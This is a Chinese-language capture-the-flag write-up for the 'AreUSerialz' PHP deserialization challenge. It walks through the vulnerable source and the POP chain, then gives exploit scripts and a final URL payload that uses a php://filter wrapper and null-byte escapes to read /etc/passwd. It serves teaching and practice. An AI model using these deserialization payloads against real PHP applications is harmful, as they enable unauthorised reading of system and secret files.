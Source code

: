 # [网鼎杯 2020 青龙组]AreUSerialz

## 知识点

`php代码审计`

`php反序列化`

## 解题

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

首先找序列化开始和目标函数

开始函数为

```php
if(is_valid($str)) {
 $obj = unserialize($str);
}
```

目标函数为，直接将`$this->filename`用伪协议读取文件内容，一般测试`payload`是否正确，可读取`/etc/passwd`测试

```php
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
}
```

然后查找`POP链`，`process`调用`read` 函数

```php
public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
```

反序列化直接调用`process`

所以`pop链`为`FileHandler::process()->FileHandler::read()`

并且需要`FileHandler::op == "2"`且`FileHandler::op !== "2"`

这就涉及强类型和弱类型数据比较,`op`为数字`2`时同时满足上述条件

所以`exp`为

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    protected $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```

但是这道题有过滤

```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
```

所以在对`protected`类型数据传参时无法传入`%00`

绕过方法一

`php7.1+`版本对属性类型不敏感，本地序列化的时候将属性改为`public`进行绕过即可

```php
<?php  

class FileHandler{
    public $op=2;
    public $filename="php://filter/convert.base64-encode/resource=/etc/passwd";
    public $content;
}

$a = new FileHandler();
echo serialize($a);
?>  
```

![](./img/7-1.png)

发现读取成功

绕过方法二

**利用大写S采用的16进制，来绕过is_valid中对空字节的检查。 \00 替换 %00**

```php
<?php  

class FileHandler{
    protected $op=2;
    protected $filename="/etc/passwd";  // 最后需要手动修改passwd为小写
    protected $content;
}

$a = new FileHandler();
$b = urlencode(serialize($a));
$b = str_replace("s", "S", $b);
$b = str_replace("%00", "\00", $b);
echo $b;
?>  
```

最终`payload`

```
http://b6e037f4-5bb0-4a2b-866b-df7c1416fc12.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A11%3A%22%2Fetc%2Fpasswd%22%3BS%3A10%3A%22\00%2A\00content%22%3BN%3B%7D
```